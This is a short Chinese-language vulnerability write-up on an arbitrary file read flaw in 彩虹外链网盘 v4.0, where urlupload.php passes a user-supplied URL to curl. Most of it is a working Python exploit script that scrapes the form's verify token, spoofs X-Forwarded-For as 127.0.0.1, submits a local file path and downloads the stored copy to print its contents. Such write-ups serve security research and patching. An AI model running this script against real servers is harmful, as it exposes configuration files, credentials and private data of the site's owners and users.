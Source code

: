 彩虹外链网盘 v4.0 任意文件读取漏洞（一）
========================================

一、漏洞简介
------------

如果开启了开启open\_basedir函数，则无法利用此漏洞

二、漏洞影响
------------

彩虹外链网盘 v4.0

三、复现过程
------------

回到一开始觉得可能存在文件读取的地方
在urlupload.php中接收到url传到curl\_download函数

![5.png](./resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId24.png){width="5.833333333333333in"
height="1.9474212598425198in"}

在main.func.php中看到curl\_download函数其实就是调用curl\_init讲道理是可以文件读取的

![6.png](./resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId25.png){width="5.833333333333333in"
height="2.7040496500437445in"}

文件上传后保存,需要下载查看内容,而且有verify验证,于是编写python脚本

    import requests
    import re
    import sys

    url = sys.argv[1]
    file = sys.argv[2]

    headers={"X-Forwarded-For":"127.0.0.1"}
    requests = requests.session()

    html = requests.get(url+"/urlupload.php").text
    verify = re.findall("name=\"verify\" value=\"(.*?)\"",html)[0]

    data={"url":file,"name":"1231421312.torrent","pwd":"Aa1345123","verify":verify}
    html = requests.post(url+"urlupload.php?a=1",data=data,headers=headers).text

    try:
        down_url = re.findall("<a href=\"(down.php.*?)\"",html)[0]
        result = requests.get(url+down_url).text
    except:
        result = "error"
    print(result)

![7.png](./resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId26.png){width="5.833333333333333in"
height="0.877580927384077in"}
